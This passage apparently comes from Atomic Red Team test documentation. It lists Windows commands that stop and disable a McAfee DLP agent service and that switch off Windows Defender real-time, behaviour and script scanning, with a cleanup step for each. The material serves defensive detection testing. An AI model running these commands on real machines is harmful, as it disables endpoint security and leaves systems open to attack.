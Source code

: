 **Supported Platforms:** Windows

**auto_generated_guid:** a1230893-56ac-4c81-b644-2108e982f8f5

#### Inputs:

| Name         | Description                     | Type   | Default Value         |
| ------------ | ------------------------------- | ------ | --------------------- |
| service_name | The name of the service to stop | string | McAfeeDLPAgentService |

#### Attack Commands: Run with `command_prompt`! Elevation Required (e.g. root or admin)

```cmd
net.exe stop #{service_name}
sc.exe config #{service_name} start= disabled
```

#### Cleanup Commands:

```cmd
sc.exe config #{service_name} start= auto >nul 2>&1
net.exe start #{service_name} >nul 2>&1
```

<br/>
<br/>

## Atomic Test #16 - Tamper with Windows Defender ATP PowerShell

Attempting to disable scheduled scanning and other parts of windows defender atp. Upon execution Virus and Threat Protection will show as disabled
in Windows settings.

**Supported Platforms:** Windows

**auto_generated_guid:** 6b8df440-51ec-4d53-bf83-899591c9b5d7

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
Set-MpPreference -DisableRealtimeMonitoring 1
Set-MpPreference -DisableBehaviorMonitoring 1
Set-MpPreference -DisableScriptScanning 1
Set-MpPreference -DisableBlockAtFirstSeen 1
```

#### Cleanup Commands:

```powershell
Set-MpPreference -DisableRealtimeMonitoring 0
Set-MpPreference -DisableBehaviorMonitoring 0
Set-MpPreference -DisableScriptScanning 0
Set-MpPreference -DisableBlockAtFirstSeen 0
```
